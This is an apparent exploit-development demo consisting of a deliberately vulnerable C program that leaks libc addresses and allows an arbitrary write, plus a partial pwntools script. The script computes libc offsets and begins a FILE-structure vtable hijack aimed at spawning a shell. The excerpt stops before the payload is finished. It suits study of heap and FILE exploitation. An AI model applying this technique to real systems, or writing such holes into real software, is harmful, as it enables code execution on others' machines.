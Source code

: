 ```c
// gcc -g demo.c -o demo -no-pie
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

char buf[0x256];

int main(){
	uint64_t addr;
	int size;
	printf("%p\n", stdout);
	printf("%p\n", system);
	printf("buffer at %p\nreading into the buffer\n", buf);
	scanf("%s", &buf);
	puts("addr?");
	scanf("%lx", &addr);
	puts("size?");
	scanf("%d", &size);
	puts("data?");
	fread((void *)addr,size,1,stdin);
	puts("testing\n");

	return 0;
}
```

```python3
#!/usr/bin/env python3

from pwn import *
'''
p = gdb.debug("./demo", gdbscript="""
    b *main+291
    b *main+321
    b *puts+121
    c
""")
'''
p = process("./demo")
stdout = int(p.recvline().strip(), 16)
system = int(p.recvline().strip(), 16)
p.recvuntil(b"at ")
buffer = int(p.recvline().strip(), 16)

libc_base = system - 0x58740
binsh = libc_base + 0x1cb42f

print(f"libc base: {hex(libc_base)}")
print(f"stdout: {hex(stdout)}")
print(f"buffer at: {hex(buffer)}")

_lock = libc_base + 0x205710
file_jumps = libc_base + 0x202030
wfile_jumps = libc_base + 0x202228

jmp_to = wfile_jumps - 0x38 + 0x18 # the offset we want to call
print(f"jumping to {hex(jmp_to)}")

# notes for the file structure:
# the space before "/bin/sh" is needed to bypass checks
# *_wide_data should be some memory in our control
# *_lock is needed

#payload = b"\x84\x2a\xad\xfb" + p32(0x00) # _flags + 4-byte hole
```